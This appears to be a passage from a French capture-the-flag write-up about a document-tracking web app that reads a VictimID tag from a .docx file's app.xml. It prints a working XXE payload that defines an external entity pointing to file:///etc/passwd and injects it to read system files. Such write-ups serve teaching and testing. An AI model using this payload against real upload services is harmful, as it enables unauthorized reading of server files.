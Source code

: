 `Track a Word document` et `Identify a victim from a document`

Pour ces deux options nous devons obligatoirement upload un **document word .docx**.

> [!IMPORTANT]
> Mais qu'est-ce qu'un document docx ?
> Un .docx fonctionne comme une archive .zip : il contient plusieurs fichiers, dont des fichiers XML. L’un d’eux, app.xml, est utilisé pour stocker des métadonnées.

On upload un document .docx vierge avec la première option et on récupère le document "signé".

-- Le fichier **app.xml** contient une balise personnalisée **VictimID : 

```xml
<VictimID>victim-42382ede-f219-4076-9758-be4ee93686d4</VictimID>
```

La deuxième option **récupère** le contenu de cette la balise pour "identifier la victime".

On voit donc la possibilité d'une injection **XXE** pour récupérer des fichiers système.

--> On modifie le contenu de app.xml et on update l'archive docx pour tester la récupération de /etc/passwd : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties"
            xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes">
  <VictimID>&xxe;</VictimID>
  <Application>App</Application>
</Properties>
```
On upload ce fichier via la deuxième option et on récupère le contenu de /etc/passwd --> Cela confirme la vulnérabilité : 
